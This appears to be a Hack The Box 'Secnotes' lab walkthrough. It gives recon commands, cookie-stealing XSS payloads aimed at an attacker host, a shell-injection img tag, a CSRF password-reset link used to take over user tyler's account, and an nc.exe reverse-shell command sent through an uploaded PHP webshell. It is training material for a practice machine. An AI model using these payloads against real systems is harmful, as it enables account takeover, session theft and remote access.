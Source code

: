 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

### After registering an account and gaining access to the web application, additional functionality to

### Create notes, change password and a contact form are available. The user "tyler" is referenced.

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``

``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``

``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``

``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``

``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

### Weak Password Change Mechanism

### A common issue with password change mechanisms is a failure to validate that the user knows
### the existing password. Password recovery mechanisms also allow users to change their
### password without knowing the existing password, but may require an additional verification step,
### such as sending the reset request to the email address associated with the username. If a
### malicious user gets a victim to click on a malicious password change request, and validation of
### the existing password is not required, then they may be able to take control of the account.

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``

### Cross-Site Request Forgery (CSRF)

### The "Contact Us" form is directed to tyler, and if a malicious password reset request is sent to this
### user, they might click the link. CSRF tokens would defend against this attack, but they haven’t
### been implemented in the web application. In Burp, the "Change Password" request type is
### changed from POST to GET, and the malicious URL is constructed.

![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``    

![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)
 
### The URL is pasted into the message body of the Contact request, and after a short while the
### credentials tyler:testtest can be used to log into the website.
 
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
                                    
![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)
 
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $
                    
![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
                    
 ![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $


